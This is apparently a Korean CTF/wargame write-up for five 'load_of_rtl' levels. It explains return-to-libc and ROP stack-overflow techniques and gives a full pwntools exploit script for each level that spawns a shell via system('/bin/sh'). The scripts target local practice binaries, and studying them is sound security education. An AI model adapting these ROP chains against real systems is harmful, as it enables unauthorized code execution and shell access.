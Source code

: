 # load_of_rtl

## cobolt

You can use write, read, system and /bin/sh  
gdb를 통해 디버깅하여 system_plt = 0x4010b0임을 알 수 있고, pop_rdi 가젯의 주소와 /bin/sh의 주소를 확인할 수 있다.
버퍼의 크기와 dummy, SFP를 덮은 뒤 ret를 pop_rdi 가젯의 주소  로 덮는다. pop_rdi 가젯을 활용하면 rdi에 /bin/sh의 주소를 넣은 뒤 system 함수의 plt로 return하여 system("/bin/sh")를 호출하게 된다.


```python
from pwn import *

p = process("./cobolt")

pop_rdi = 0x401353
binsh = 0x404060
system_plt = 0x4010b0

p.recvuntil(b"You can use write, read, system and /bin/sh\n")

payload = b'A'*0x40
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rdi+1)
payload += p64(system_plt)
p.send(payload)

p.interactive()
```


## goblin

  
You can use read and system  
gdb를 통해 디버깅하여 read함수의 주소와 system함수의 주소를 알아낼 수 있다. "/bin/sh" 문자열이 필요하므로 ASLR의 영향을 받지 않는 bss영역에 문자열을 작성해야 한다. read(0,bss,8) 함수를 이용하여 bss영역에 문자열을 작성할 수 있다. 이와 같은 방식으로 RTL을 반복할 수 있다. 이후 system함수의 주소와 "/bin/sh" 주소를 쓰면 함수를 실행할 수 있다.

```python
from pwn import *

p = process("./goblin")

pop_ret = 0x08049022
pop3_ret = 0x08049391
read_plt = 0x80490b0
system_plt = 0x80490e0
bss = 0x804c030 + 0x300
main = 0x80492f3


payload = b'A'*0x44
payload += b'B'*0x4
# bss영역에 /bin/sh 저장
payload += p32(read_plt)
payload += p32(pop3_ret)
payload += p32(0)
payload += p32(bss)
payload += p32(8)
# system 실행
payload += p32(system_plt) 
payload += b'C'*0x4
payload += p32(bss)
p.send(payload)

# /bin/sh 보내기
sleep(0.1)
p.send(b"/bin/sh\x00")

p.interactive()
```





## gremlin


You can use write, read, system and /bin/sh  
system("/bin/sh")를 호출하기 위해 system함수의 주소와 "/bin/sh"의 주소를 구한다. ret를 system함수로 덮어주고 esp+0x4 자리에 "/bin/sh"의 주소를 쓰고 사이를 더미값으로 채워주면 system("/bin/sh")를 호출할 수 있다.

```python
from pwn import *

p = process("./gremlin")

system_plt = 0x80490f0
binsh = 0x804c034

# system("/bin/sh") 실행
p.recvuntil(b"You can use write, read, system and /bin/sh\n")
payload = b'A'*0x44
payload += b'B'*0x4
payload += p32(system_plt)
payload += b'C'*0x4
payload += p32(binsh)
pause()
p.send(payload)

p.interactive()
```



## orc 

You can use only read  
read를 사용하여 "/bin/sh"를 bss 영역에 쓸 수 있지만, system함수가 주어지지 않았으므로 라이브러리에서 찾아야 한다. 라이브러리 디버깅을 통해 system함수의 주소를 찾으면 0x41790이고, read함수의 주소를 찾으면 0xf1b60이다. 또한 실제로 프로그램을 실행한 후 system함수의 주소를 찾아도 같다. 즉 offset을 이용할 필요가 없으므로 system_addr를 덮고 "/bin/sh"를 보내면 쉘을 얻을 수 있다.

```python
from pwn import *

p = process("./orc")

pop_ret = 0x08049353
pop3_ret = 0x08049351
read_plt = 0x080490a0
bss = 0x0804c02c + 0x300

payload = b'A'*0x44
payload += b'B'*0x4
# bss영역에 /bin/sh 저장
payload += p32(read_plt)
payload += p32(pop3_ret)
payload += p32(0)
payload += p32(bss)
payload += p32(8)

system_addr = 0x41790

# system 실행
payload += p32(system_addr)
payload += b'C'*0x4
payload += p32(bss)
p.send(payload)

# /bin/sh 보내기
sleep(0.1)
p.send(b"/bin/sh\x00")

p.interactive()

```


## wolfman

You can use only read, isn't it?  
Brute force를 할 수 없지만, orc처럼 system함수의 주소를 0x41790으로 찾을 수 있다. 또한 gadget을 활용해 bss영역에 "/bin/sh"를 저장하고 bss 주소를 system 함수를 호출하여 인자로 보낼 수 있다. 이후 시간이 조금 지난 뒤 쉘을 얻을 수 있다.  

```python
from pwn import *

p = process("./wolfman")

pop_ret = 0x08049373
pop3_ret = 0x08049371
read_plt = 0x080490b0
bss = 0x0804c030 + 0x300

payload = b'A'*0x44
payload += b'B'*0x4
# bss영역에 /bin/sh 저장
payload += p32(read_plt)
payload += p32(pop3_ret)
payload += p32(0)
payload += p32(bss)
payload += p32(8)

system_addr = 0x41790

# system 실행
payload += p32(system_addr)
payload += b'C'*0x4
payload += p32(bss)
p.send(payload)

# /bin/sh 보내기
sleep(0.1)
p.send(b"/bin/sh\x00")

p.interactive()

```



